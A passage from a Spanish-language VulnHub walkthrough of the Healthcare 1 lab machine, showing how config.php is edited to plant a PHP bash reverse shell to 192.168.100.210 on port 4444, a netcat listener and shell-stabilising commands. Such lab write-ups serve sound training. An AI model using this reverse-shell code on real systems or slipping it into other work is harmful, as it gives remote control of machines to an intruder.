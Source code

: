 Aquí vamos a crear una shell reversa en PHP editando el archivo `config.php`.

```php
<?php
$cmd = "nohup bash -c 'bash -i >& /dev/tcp/192.168.100.210/4444 0>&1' &";
system($cmd);
?>
```

![alt text](/assets/img/writeups/vulnhub/healthcare1/image-9.png)

Escuchamos el puerto 4444 y guardamos el archivo modificado.

```bash
nc -nlvp 4444
```

![alt text](/assets/img/writeups/vulnhub/healthcare1/image-10.png)

## Explorando el sistema

Ahora estabilizamos la shell y exploramos el sistema.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
CRTL+Z
stty raw -echo ; fg
ENTER
export TERM=xterm
```

